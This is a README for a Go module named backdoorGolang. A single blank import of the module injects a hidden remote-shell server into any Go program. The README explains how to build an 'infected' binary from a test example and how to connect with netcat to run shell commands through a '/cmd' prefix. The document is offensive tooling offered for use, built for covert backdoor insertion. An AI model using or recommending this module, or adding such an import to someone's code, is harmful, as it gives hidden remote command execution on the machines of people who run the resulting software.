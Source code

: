 # backdoorGolang

[![Windows Build Status](https://ci.appveyor.com/api/projects/status/github/pilebones/backdoorGolang?svg=true&branch=master&passingText=Windows%20-%20OK&failingText=Windows%20-%20failed&pendingText=Windows%20-%20pending)](https://ci.appveyor.com/project/pilebones/backdoorGolang)
  
Backdoor with Golang (Cross-Plateform)

`/!\` Work in progress, not a stable release `/!\`

## Main goal

Forked from pilebones/backdoorGolang.
Changed from CLI interface to a golang module.
User should just import the module:

`import _ "github.com/guimagalhaes/backdoorGolang/core/socket/server"`

A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible).

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :

```bash
(sudo) pacman -S community/go
```

From Debian :

```bash
(sudo) apt-get install golang-go
```

From SUSE :

```bash
(sudo) zypper install go1.16
```

## Installation

```bash
go get github.com/guimagalhaes/backdoorGolang@v0.2.2
```

## Run test example
Go to tests/simple_example, remove the inject_backdoor.go file and build it:

`go build`

Execute the binary './simple_example' and see that only a simple HTTP server is available:

`curl http://localhost:2020/hello`

Restore the inject_backdoor.go file and build it again:

```
git checkout inject_backdoor.go
go build
```

Execute the new binary ./simple_example and see that besides the simple HTTP server, the backdoor is now injected to the binary.
Follow the next session to see how to test the infected version of the binary.

## Client

It is used the 'localhost:23000' address hardcoded for now. The intention is to have network interface detection and auto selection of available network port range.
Use netcat:

```bash
netcat localhost 23000
```

Then execute a sequence of shell commands using '/cmd ' as prefix:

```
/cmd ls -l
/cmd ss -natp
...
```

To exit the netcat session:

```
/quit
<enter>
<enter>
```

